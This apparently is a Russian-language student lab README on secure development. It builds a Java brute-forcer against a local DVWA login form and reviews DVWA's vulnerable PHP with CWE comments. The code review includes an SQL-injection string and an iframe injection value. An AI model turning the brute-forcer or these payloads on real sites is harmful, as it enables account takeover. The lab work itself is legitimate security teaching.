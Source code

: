 # SDLC_Lab_3
Практика №3 по "Разработке безопасного программного обеспечения"

1. Необходимо разработать переборщик паролей для формы в задании Bruteforce на сайте dvwa.local (Можно использовать официальный ресурс или виртуальную машину Web Security Dojo)

  Для перебора паролей для начала необходимо размернуть приложение DVWA. Развернем его в Docker, для этого необходимо перейти в папку /DVWA-master и выполнить команду `docker compose up` в терминале. \
  ![Поднимаем DVWA](imgs/dvwa_up.png) \
  Перейдем по адресу `localhost:4280` в браузере. \
  ![Переходим на localhost:4280](imgs/dvwa_visit.png) \
  Перейдем на форму, которая является переборщика. \
  ![Переходим на форму](imgs/dvwa_form_visit.png) \
  Выполним успешный ввод данных. \
  ![Успешный ввод](imgs/dvwa_form_success.png) \
  Обратим внимание на сообщение, которое выводится при успешном вводе, а также на то, в какой форме производится запрос.\
  ![Сообщение об успехе](imgs/dvwa_success_message.png) ![Форма запроса](imgs/dvwa_query_form.png) \
  Выполним неудачный ввод данных и так же обратим внивание на сообщение. \
  ![Неудачный ввод](imgs/dvwa_form_fail.png) ![Сообщение о провале](imgs/dvwa_fail_message.png) \
  На основе полученной информации разработаем переборщик паролей на языке программирования Java. Программа будет работать в многопоточном режиме. Для перехода к форме, которую необходимо взломать необходимо авторизоваться на сайте. Напишем для этого функцию.
  ```Java
        private void loginToDVWA() throws IOException {
            String loginPageUrl = "http://localhost:4280/login.php";
            String username = "admin";
            String password = "password";
            String csrfToken;

            Request loginPageRequest = new Request.Builder()
                .url(loginPageUrl)
                .get().build();

            try (Response response = client.newCall(loginPageRequest).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                String substringForBeginInd = "name='user_token' value='";
                int begInd = html.indexOf(substringForBeginInd);
                int endInd = html.indexOf("' />\r\n\r\n\t</form>");
                csrfToken = html.substring(begInd + substringForBeginInd.length(), endInd);
            }

            RequestBody formBody = new FormBody.Builder()
                .add("username", username)
                .add("password",  password)
                .add("Login", "Login")
                .add("user_token", csrfToken)
                .build();
            Request loginRequest = new Request.Builder()
                .url(loginPageUrl)
                .post(formBody)
                .build();

            try (Response response = client.newCall(loginRequest).execute()) {
                assert response.body() != null;
            }
        }
```
  Алгоритм программы будет выполнять попытку аутентификации по адресу, который был обнаружен раннее `http://localhost:4280/vulnerabilities/brute/?username=admin&password=%s&Login=Login`. Переборщик анализирует html, который приходит в ответ и ищет сообщение об успешном входе или провале. Функция для попытки аутентификации выглядит следующим образом:
  ```Java
private boolean makeAttemptToLogin(String password) throws IOException {
            String loginPage = BASE_URL + "/brute/?username=admin&password=%s&Login=Login"
                .formatted(password);

            Request loginAttempt = new Request.Builder()
                .url(loginPage)
                .get()
                .build();

            try (Response response = client.newCall(loginAttempt).execute()) {
                assert response.body() != null;
                String html = response.body().string();
                if (html.contains("Username and/or password incorrect.")) {
                    return false;
                } else if (html.contains("Welcome to the password protected area admin")) {
                    return true;
                } else {
                    Thread.sleep(2000);
                    makeAttemptToLogin(password);
                    return false;
                }
            } catch (InterruptedException e) {
                throw new RuntimeException(e);
            }
        }
```
Пароли извлекаются из файла и поочереди используются в запросах. Запустим переборщик. \
![Запуск перебора DVWA](imgs/dvwa_brute_start.png) \
Таким образом переборщик справился за 21 секунду. \
![Финиш перебора DVWA](imgs/dvwa_brute_finish.png)

2. Проанализировать код и сделать кодревью, указав слабые места. Слабость уязвимого кода необходимо указать с использованием метрики CWE (база данных cwe.mitre.org)

Проанализируем код и в комментариях укажем слабые места.
```PHP
<?php

if( isset( $_GET[ 'Login' ] ) ) {

	$user = $_GET[ 'username' ];

	$pass = $_GET[ 'password' ];
    //CWE-327 Use of a Broken or Risky Cryptographic Algorithm. Не рекомендуется использование таких старых алгоритмов хеширования как MD4, MD5, SHA1, DES, так как их значительно легче сломать, чем современные
	$pass = md5( $pass ); 

    //CWE-89 'SQL Injection'. В username можно ввести "admin' OR '1'='1", что позволит войти с любым паролем
	$query  = "SELECT * FROM `users` WHERE user = 'admin' AND password = '$pass';";
    //CWE-200 Exposure of Sensitive Information to an Unauthorized Actor. В случае ошибки выполнения запроса пользователю выводится фрагмент внутреннего устройства кода, что может быть использовано злоумышленниками
	$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
	if( $result && mysqli_num_rows( $result ) == 1 ) {

		$row    = mysqli_fetch_assoc( $result );
		$avatar = $row["avatar"];

        //CWE-79 'Cross-site Scripting'. Прямое использование значения в html разметке без предварительной обработки может привести к внедрению html тегов пользователями на веб-странице.
        //Например, в комбинации с CWE-89 в страницу можно внедрить плеер из Яндекс Музыки введя в username: admin' OR '<iframe frameborder="0" allow="clipboard-write" style="border:none;width:100%;height:210px;" width="100%" height="210" src="https://music.yandex.ru/iframe/track/71237781/12115632">Слушайте <a href=\'https://music.yandex.ru/album/12115632/track/71237781\'>No Gods</a> — <a href=\'https://music.yandex.ru/artist/5704222\'>FREE FLOW FLAVA</a> на Яндекс Музыке</iframe>
		$html .= "<p>Welcome to the password protected area {$user}</p>";
		$html .= "<img src=\"{$avatar}\" />";
	}
	else {

		$html .= "<pre><br />Username and/or password incorrect.</pre>";
	}
	((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```

3. Разработать свою систему авторизации на любом языке, исключающий взможность подбора паролей разработнным переборщиком паролей в задании 1. Система авторизации должна использовать запросы GET с параметрами, аналогичными из задания bruteforce dvwa.

